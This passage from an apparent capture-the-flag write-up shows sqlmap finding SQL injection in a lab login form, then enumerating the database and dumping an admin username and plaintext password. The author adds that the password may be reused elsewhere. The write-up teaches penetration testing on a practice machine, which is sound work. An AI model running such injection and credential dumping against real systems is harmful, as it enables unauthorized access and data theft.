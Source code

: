 ```
there were multiple injection points, please select the one to use for following injections:
[0] place: POST, parameter: username, type: Single quoted string (default)
[1] place: POST, parameter: password, type: Single quoted string
[q] Quit
> 0
[15:38:07] [INFO] testing MySQL
[15:38:07] [INFO] confirming MySQL
[15:38:07] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.0
[15:38:07] [INFO] fetched data logged to text files under '/home/cyfun/.sqlmap/output/10.10.10.185'
```

Nice we have 2 injection points for our OR boolean-based blind SQL injection.

Now I'll some options to get more information:

- `--current-user` -> `theseus@localhost`
- `--current-db` -> `Magic`
- `--hostname` -> `ubuntu`
- `--is-dba` -> `False`
- `--tables -D Magic` -> `login`
- `-D Magic -T login --columns` ->
    ```
    +----------+--------------+
    | Column   | Type         |
    +----------+--------------+
    | id       | int(6)       |
    | password | varchar(100) |
    | username | varchar(50)  |
    +----------+--------------+
    ```
- `-D Magic -T login --dump` ->
    ```
    +------+----------+----------------+
    | id   | username | password       |
    +------+----------+----------------+
    | 1    | admin    | Th3s3usW4sK1ng |
    +------+----------+----------------+
    ```

Note: We could have done a dump directly but that would have been dirty and far
less efficient if there were more databases, tables, entries, etc. Also we
probably didn't needed to dump the password, we could have just bypass the
authentication. But the password may be reused somewhere else and there could
have been more stuff in the DB.

## File upload

